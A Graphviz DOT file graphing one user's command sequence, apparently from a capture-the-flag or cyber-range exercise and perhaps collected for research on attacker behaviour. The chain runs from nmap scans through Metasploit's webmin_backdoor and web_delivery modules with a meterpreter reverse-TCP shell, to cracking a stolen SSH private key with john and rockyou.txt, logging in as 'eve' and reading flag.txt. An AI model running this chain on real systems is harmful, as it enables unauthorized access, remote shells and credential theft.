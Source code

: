// creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A V0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	9 [label="set LHOST 10.1.135.83 M6 "]
	10 [label="show options V5 "]
	11 [label="set RHOSTS 172.18.1.5 V6 "]
	12 [label="exploit V8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 V6 "]
	16 [label="use exploit/multi/script/web_delivery V8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options V5 "]
	20 [label="set target linux A6 "]
	21 [label="show options V5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options V5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options V5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options V5 "]
	31 [label="run V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	33 [label="run V8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run V8 "]
	36 [label="nmap 172.18.1.5/12 -p- V0 "]
	42 [label="nmap 172.18.1.5/24 -p- V0 "]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa V13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve V13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	72 [label="ssh eve@10.1.17.4 V16 "]
	73 [label="ls -la A10 "]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 42 [constraint=false]
	42 -> 45 [constraint=false]
	45 -> 51 [constraint=false]
	51 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	rankdir=LR
}

